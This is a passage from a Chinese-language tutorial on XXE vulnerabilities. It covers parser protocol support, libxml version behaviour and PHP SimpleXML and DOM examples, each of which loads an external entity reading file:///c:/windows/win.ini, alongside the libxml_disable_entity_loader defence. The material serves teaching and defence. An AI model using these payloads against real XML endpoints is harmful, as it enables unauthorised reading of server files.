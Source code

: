 参考：

- [XML实体](https://blog.csdn.net/lyq32/article/details/1616496)
- [XML中实体的概念](https://blog.csdn.net/janchin/article/details/46849209)

### XML解析器 

外部实体一般支持http，file等协议，不同的解析器实现的协议不同，具体内容如下所示:

![image](http://image.3001.net/images/20171211/15129735161149.png)

只要实现了XML的解析功能，并且没有限制外部实体就有可能存在XXE漏洞，其中包括了：

- 网站的后端
- 一些应用程序（如XML Notepad）
- 甚至是浏览器

其中PHP和JAVA常用实现XML解析的方法如下：

#### php

php解析xml是利用的libxml模块，libxml2.9.1及以后，默认不解析外部实体。测试的时候window下使用的是php5.2(libxml Version 2.7.7 ), php5.3(libxml Version 2.7.8)。Linux中需要将libxml低于libxml2.9.1的版本编译到PHP中，可以使用phpinfo()查看libxml的版本信息。可以通过libxml_disable_entity_loader(ture);这条语句来进制外部实体的加载。

##### SimpleXML

```php
<?php
$a=<<<EOF
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///c:/windows/win.ini">]>
<foo>&xxe;</foo>
EOF;
$data= simplexml_load_string($a);
print_r($data);
?>
```

通过这种方式加载外部实体需要libxml版本小于2.9.1，大于这个版本即使libxml_disable_entity_loader(false);设置为关闭也无法加载。防御方法，使用高版本的libxml，禁用外部实体:

```
libxml_disable_entity_loader(true);
```

##### DOM

```php
<?php
libxml_disable_entity_loader(false);
$xmlfile = <<<EOF
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "file:///c:/windows/win.ini" >]>
<root>&xxe;</root>
EOF;

$dom = new DOMDocument();
$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
$creds = simplexml_import_dom($dom);
print_r($creds);
?>
```
